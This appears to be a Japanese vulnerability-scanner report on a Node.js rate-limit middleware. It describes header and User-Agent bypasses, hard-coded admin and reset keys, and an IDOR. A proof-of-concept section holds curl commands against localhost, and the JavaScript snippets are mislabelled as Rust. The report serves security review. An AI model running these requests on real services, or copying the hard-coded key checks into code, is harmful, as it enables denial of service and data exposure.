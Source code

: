 # 解析レポート

![中高信頼度](https://img.shields.io/badge/信頼度-中高-orange) **信頼度スコア: 80**

## 脆弱性タイプ

- `IDOR`

## 解析結果

本ミドルウェアには以下の深刻な脆弱性が存在します。

1. レート制限バイパス (ヘッダー/UA/IP偽装)
   - 任意のBYPASS_HEADERSヘッダーをtrueまたは任意値で送信すると制限を完全にスキップできる。さらにUser-Agentに「bot」や「crawler」を含めるだけで通過でき、X-Forwarded-Forヘッダーを操作してIPごとの制限回避が可能。

2. 動的レート制限変更の認可不備
   - `x-admin-key`ヘッダーに固定文字列（"rate_limit_admin"／"admin123"）を与えれば、誰でも`limit`パラメータで上限値を書き換え可能。

3. レート制限状況情報の未認可公開 (IDOR)
   - 認証・認可チェックなしに任意のclientIdをクエリで指定でき、他ユーザのリクエスト履歴（全タイムスタンプ）や全クライアントIDリストを取得できる。

4. 全体リセット許可の認可不備
   - `x-reset-key`ヘッダーに固定文字列（"reset123"／"admin"）を与えるだけで、全クライアントのレート制限状態をクリアできる。

影響：攻撃者は無制限にリクエストを送信したり、任意のIP／ユーザの制限状況を盗み見／操作可能となり、サービス拒否（DoS）や情報漏洩を招きます。

## PoC（概念実証コード）

```text
1) ヘッダーバイパス
   curl -H "X-Bypass-Rate-Limit: true" http://localhost:3000/api/resource
2) UAバイパス
   curl -A "mycrawler" http://localhost:3000/api/resource
3) レート制限変更 (認可不要)
   curl -X POST -H "Content-Type: application/json" -H "x-admin-key: admin123" -d '{"limit":1000}' http://localhost:3000/api/adjust
4) 他者ステータス参照 (IDOR)
   curl http://localhost:3000/api/status?clientId=192.0.2.1
5) 全体リセット (認可不要)
   curl -X POST -H "x-reset-key: admin" http://localhost:3000/api/reset
```

## 関連コードコンテキスト

### 関数名: rateLimitMiddleware
- 理由: 任意のヘッダーでレート制限をバイパス可能
- パス: middleware/ratelimit.js
```rust
for (const header of RATE_LIMIT_CONFIG.BYPASS_HEADERS) { if (req.headers[header] === 'true' || req.headers[header]) { return next(); } }
```

### 関数名: rateLimitMiddleware
- 理由: User-Agentを偽装するだけでバイパス可能
- パス: middleware/ratelimit.js
```rust
if (userAgent && (userAgent.includes('bot') || userAgent.includes('crawler'))) { return next(); }
```

### 関数名: adjustRateLimit
- 理由: 固定値による弱い管理キー検証で動的に制限値を変更可能
- パス: middleware/ratelimit.js
```rust
if (adminKey === 'rate_limit_admin' || adminKey === 'admin123') {
```

### 関数名: getRateLimitStatus
- 理由: 認可なしに他クライアントの制限状況および全IDリストを取得可能 (IDOR)
- パス: middleware/ratelimit.js
```rust
res.json({ client_id: clientId, requests_in_window: recentRequests.length, limit: RATE_LIMIT_CONFIG.DEFAULT_LIMIT, remaining: RATE_LIMIT_CONFIG.DEFAULT_LIMIT - recentRequests.length, window_ms: RATE_LIMIT_CONFIG.WINDOW_MS, request_timestamps: requests, all_clients: Array.from(this.rateLimitStore.keys()) });
```

### 関数名: resetRateLimit
- 理由: 固定値による弱いリセットキー検証で全クライアントの状態をクリア可能
- パス: middleware/ratelimit.js
```rust
if (resetKey === 'reset123' || resetKey === 'admin') {
```

## 解析ノート

多彩なバイパス手法と弱いキー検証、未認可情報公開でDoSや情報漏洩が可能と判断した。

